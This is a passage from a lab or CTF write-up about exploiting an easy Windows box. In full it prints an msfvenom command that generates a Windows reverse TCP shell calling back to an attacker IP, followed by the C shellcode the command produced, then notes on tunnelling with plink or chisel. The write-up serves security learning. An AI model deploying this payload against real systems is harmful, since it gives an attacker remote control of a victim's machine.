 ```text
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I had to test multiple of the exploits before I found one that actually worked. I'm certain that it was more the fact that this was an easy box that was being hammered by many many people. Even after choosing the right exploit I had to reset the machine to get it to run. had to recompile some of the shellcode in the exploit with the provided msfvenom command

```text
┌──(zweilos㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.220 LPORT=12345 -f c                                       
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of c file: 1386 bytes
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\xdc\x68"
"\x02\x00\x30\x39\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";
```

two options for creating a tunnel in order to run the local exploit against the remote machine. plink?

```text
https://www.ssh.com/ssh/putty/putty-manuals/0.68/Chapter7.html
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
```

or chisel? [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel) [https://www.puckiestyle.nl/pivot-with-chisel/](https://www.puckiestyle.nl/pivot-with-chisel/) [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
